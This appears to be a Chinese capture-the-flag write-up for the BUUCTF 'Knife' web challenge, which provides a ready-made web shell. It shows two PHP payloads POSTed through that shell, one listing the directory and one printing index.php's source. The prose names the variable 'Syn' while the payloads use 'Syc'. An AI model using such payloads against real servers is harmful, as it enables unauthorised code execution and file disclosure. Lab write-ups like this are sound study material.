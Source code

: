 <img src="/images/buuctf-web/image-20221014180904238-166704781973423.png" alt="image-20221014180904238" style="zoom:67%;" />



<br>

***

<br>

# [极客大挑战 2019]Knife

真就白给shell,根据提示直接POST给`Syn`这个变量传值执行命令就行了

扫描一下当前目录并输出,看到一个`index.php`

```
Syc=print_r(scandir("."));
```

<img src="/images/buuctf-web/image-20221014183934877-166704781973424.png" alt="image-20221014183934877" style="zoom:67%;" />

输出一下`index.php`的源码:

```
Syc=show_source("index.php");
```

<img src="/images/buuctf-web/image-20221014184051797-166704781973425.png" alt="image-20221014184051797" style="zoom:67%;" />
